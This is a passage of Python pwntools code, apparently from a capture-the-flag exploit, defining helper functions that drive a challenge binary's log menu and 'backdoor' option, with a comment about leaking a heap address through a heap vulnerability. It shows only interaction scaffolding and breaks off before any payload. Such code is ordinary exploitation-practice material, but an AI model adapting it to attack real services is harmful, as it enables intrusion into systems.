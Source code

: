 ```py
	p.sendlineafter(b'SIZE', 	str(length).encode())
	p.sendlineafter(b'FILE buffer',	b'n')
	p.sendafter(b'LOG', 	data) 	
	p.recvuntil(b'Operation?')
	
def new_log2(length: int, data: bytes) -> None:
	time.sleep(SLEEP_TIME)
	p.sendline(b'1')
	time.sleep(SLEEP_TIME)
	p.sendline(str(length).encode())
	time.sleep(SLEEP_TIME)
	p.sendline(b'n')
	time.sleep(SLEEP_TIME)
	p.send(data) 
	
def new_log_stdout(length: int) -> None:
	p.sendline(b'1')
	p.sendlineafter(b'SIZE', 	str(length).encode())
	p.sendlineafter(b'FILE buffer',	'y')

def new_log_stdout2(length: int) -> None:
	time.sleep(SLEEP_TIME)
	p.sendline(b'1')
	time.sleep(SLEEP_TIME)
	p.sendline(str(length).encode())
	time.sleep(SLEEP_TIME)
	p.sendline(b'y')
	
def display_log() -> bytes:
	p.sendline(b'2')
	p.recvuntil(b'[')
	return p.recvuntil(b'Operation?').rstrip(b'\nOperation?')
	
def display_log2() -> bytes:
	time.sleep(SLEEP_TIME)
	p.sendline(b'2')

def submit_task(addr: int) -> None:
	p.sendline(b'5')
	p.sendlineafter(b'HEAP', hex(addr).encode())
	p.recvuntil(b'Correct! Here you are:')
	return p.recvuntil(b'Operation?').rstrip(b'\nOperation?')
	
def logout2() -> None:
	time.sleep(SLEEP_TIME)
	p.sendline(b'3')
	
def backdoor2() -> None:
	time.sleep(SLEEP_TIME)
	p.sendline(b'4')
	
def backdoor_send_data2(data: bytes) -> None:
	time.sleep(SLEEP_TIME)
	p.sendline(data)
	
#------------- 基本函数 -------------

if True:

	'''
	通过堆漏洞获取堆地址
	'''
	p.recvuntil(b'Operation?')
```